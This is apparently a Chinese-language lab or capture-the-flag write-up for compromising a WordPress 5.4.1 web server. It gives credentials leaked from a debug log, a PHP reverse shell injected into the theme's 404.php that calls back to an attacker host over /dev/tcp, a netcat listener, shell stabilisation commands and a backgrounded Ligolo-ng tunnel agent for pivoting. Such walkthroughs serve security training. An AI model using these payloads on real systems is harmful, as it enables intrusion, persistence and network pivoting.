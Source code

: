 ```markdown
# 🎯 10.10.110.100 - 初始 Web 服务器

## 🧾 基本信息

- 操作系统：Linux
- 主机名：未知
- 服务开放端口：
  - 21/tcp → FTP（匿名登录 ✅）
  - 65000/tcp → HTTP（WordPress 5.4.1）

---

## 🔍 信息收集与枚举

### 🌐 HTTP

- Web 服务运行在 **端口 65000**
- WordPress 安装在子路径 `/wordpress/`
- 后台登录地址：

```

[http://10.10.110.100:65000/wordpress/wp-login.php](http://10.10.110.100:65000/wordpress/wp-login.php)

```

- WordPress 版本：**5.4.1**
- debug log 路径泄露信息：
- 用户名：`james`
- 密码：`Toyota` ✅（首字母大写）

- 成功登录后台后可访问主题编辑器：

```

Appearance > Theme Editor > 404.php

````

---


## 🧨 攻击路径

1. 使用 `james:Toyota` 登录 WP 后台

2. 打开 `Twenty Twenty` 主题 → `404.php`

3. 插入反弹 shell payload：

   ```php
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'"); ?>
   ```

4. 在本地监听：

   ```bash
   nc -lvnp 4444
   ```

5. 访问触发反弹（可任意 404 页面）：

   ```
   http://10.10.110.100:65000/wordpress/wp-content/themes/twentytwenty/404.php
   ```

6. 成功反弹 shell，当前用户为 `www-data`

---

## 🛠️ Shell 稳定化

在拿到 shell 后执行以下命令，修复终端问题：

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

---

## 🔌 Ligolo-ng 内网代理初始化

```bash
./proxy -laddr 0.0.0.0:11601 -selfcert
./agent -connect 10.10.14.4:11601 -ignore-cert
nohup ./agent -connect 10.10.14.4:11601 -ignore-cert > /dev/null 2>&1 &

---

